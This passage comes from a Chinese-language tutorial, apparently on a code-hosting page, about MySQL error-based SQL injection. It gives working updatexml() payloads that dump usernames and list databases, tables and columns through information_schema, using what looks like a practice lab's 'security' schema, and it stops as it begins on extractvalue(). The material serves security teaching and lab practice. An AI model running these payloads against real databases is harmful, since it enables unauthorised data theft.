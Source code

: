     执行结果：
  
  ```sql
  mysql> SELECT username, password FROM users WHERE id = 1 and updatexml(1,concat(0x7e,
  substr(
  (select group_concat(username) from users),1,31)
  ),3);
  1105 - XPATH syntax error: '~admin,super,flag,null'
  ```
  
  利用利用上述特性，我们可以下面的语句获取信息：
  
  获取所有数据库
  
  ```SQL
  SELECT username, password FROM users WHERE id = 1 and
  updatexml(1,concat('~',
          substr( 
                  (select group_concat(schema_name)
                  from information_schema.schemata)
          , 1 , 31)
  ),3)
  ```
  
  获取所有表
  
  ```SQL
  SELECT username, password FROM users WHERE id = 1 and
  updatexml(1,concat('~',
          substr( 
                  (select group_concat(table_name)
                  from information_schema.tables
                  where table_schema = 'security')
          , 1 , 31)
  ),3)
  ```
  
  获取所有字段
  
  ```SQL
  SELECT username, password FROM users WHERE id = 1 and
  updatexml(1,concat('~',
          substr( 
                  (select group_concat(column_name)
                  from information_schema.columns
                  where table_schema = 'security' and table_name = 'users')
          , 1 , 31)
  ),3)
  ```

- `extractvalue()`

  `extractvalue()`是MySQL中的一个XML处理函数，它用于从XML格式的数据中提取指定节点的值。

  正常情况下他的语法如下：

  ```sql
  EXTRACTVALUE(xml_target, xpath_expr)
  ```
